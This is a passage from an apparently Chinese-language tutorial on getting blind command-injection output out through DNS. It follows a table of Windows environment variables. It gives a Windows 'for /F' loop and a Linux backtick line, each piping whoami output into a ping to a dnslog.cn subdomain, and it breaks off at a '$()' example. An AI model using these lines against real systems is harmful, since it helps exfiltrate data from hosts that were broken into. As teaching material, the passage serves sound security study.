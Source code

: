 <td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回操作系统认为可执行的文件扩展名的列表。<span lang="EN-US"><o:p></o:p></span></p></td></tr><tr style="mso-yfti-irow:20;"><td width="213" valign="top" style="border-right: 1pt solid windowtext;border-bottom: 1pt solid windowtext;border-left: 1pt solid windowtext;border-top: none;padding: 0cm 5.4pt;"><p><span lang="EN-US">%PROCESSOR_ARCHITECTURE%<o:p></o:p></span></p></td><td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回处理器的芯片体系结构。<span lang="EN-US"><o:p></o:p></span></p></td></tr><tr style="mso-yfti-irow:21;"><td width="213" valign="top" style="border-right: 1pt solid windowtext;border-bottom: 1pt solid windowtext;border-left: 1pt solid windowtext;border-top: none;padding: 0cm 5.4pt;"><p><span lang="EN-US">%PROCESSOR_IDENTFIER%<o:p></o:p></span></p></td><td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回处理器说明。<span lang="EN-US"><o:p></o:p></span></p></td></tr><tr style="mso-yfti-irow:22;"><td width="213" valign="top" style="border-right: 1pt solid windowtext;border-bottom: 1pt solid windowtext;border-left: 1pt solid windowtext;border-top: none;padding: 0cm 5.4pt;"><p><span lang="EN-US">%PROCESSOR_LEVEL%<o:p></o:p></span></p></td><td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回计算机上安装的处理器的型号<span lang="EN-US"><o:p></o:p></span></p></td></tr><tr style="mso-yfti-irow:23;"><td width="213" valign="top" style="border-right: 1pt solid windowtext;border-bottom: 1pt solid windowtext;border-left: 1pt solid windowtext;border-top: none;padding: 0cm 5.4pt;"><p><span lang="EN-US">%PROCESSOR_REVISION%<span style="mso-spacerun:yes;"> </span><o:p></o:p></span></p></td><td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回处理器的版本号。<span lang="EN-US"><o:p></o:p></span></p></td></tr><tr style="mso-yfti-irow:24;mso-yfti-lastrow:yes;"><td width="213" valign="top" style="border-right: 1pt solid windowtext;border-bottom: 1pt solid windowtext;border-left: 1pt solid windowtext;border-top: none;padding: 0cm 5.4pt;"><p><span lang="EN-US">%WINDIR%<o:p></o:p></span></p></td><td width="213" valign="top" style="border-top: none;border-left: none;border-bottom: 1pt solid windowtext;border-right: 1pt solid windowtext;padding: 0cm 5.4pt;"><p>返回操作系统目录的位置。<span lang="EN-US"><o:p></o:p></span></p></td></tr></tbody></table>  
  
2.     for命令  
  
使用for加ping命令  
  
for /F "delims=\" %i in
('whoami') do ping %i.v0c9yy.dnslog.cn  
  
执行命令之后，在dnslog平台获取到命令执行的结果。  
  
  
  
  
Linux环境  
  
  
1.   
1.     反引号  
  
命令如下：  
  
ping `whoami`.i7ac34.dnslog.  
  
  
  
1. 2.  
       
$()  
  
命令如下：  
  